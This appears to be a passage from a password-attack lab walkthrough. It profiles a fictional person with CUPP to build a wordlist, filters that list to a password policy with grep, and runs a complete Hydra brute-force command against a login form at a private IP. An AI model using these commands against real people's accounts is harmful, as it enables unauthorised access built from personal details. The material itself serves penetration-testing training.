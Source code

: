 **2. Password Generation – CUPP**

<pre>sudo apt install cupp -y
cupp -i</pre>

<pre>First Name: Jane
Surname: Smith
Nickname: Janey
Birthdate: 11121990
Partner's Name: Jim
Partner's Nickname: Jimbo
Partner's Birthdate: 12121990
Pet's Name: Spot
Company: AHI
Keywords: hacker,blue
Special chars? y
Random numbers? y
Leet mode? y</pre>

**3. Filtering for Password Policy**

AHI password rules:

- Min length 6
- At least 1 uppercase, 1 lowercase, 1 number
- At least 2 special characters (!@#$%^&*)

<pre>grep -E '^.{6,}$' jane.txt \
| grep -E '[A-Z]' \
| grep -E '[a-z]' \
| grep -E '[0-9]' \
| grep -E '([!@#$%^&*].*){2,}' \
> jane-filtered.txt</pre>

**4. Brute-Force with Hydra**

Use jane_usernames.txt & jane-filtered.txt against target login.

`hydra -L jane_usernames.txt -P jane-filtered.txt 192.168.1.75 -s 8080 -f http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"`

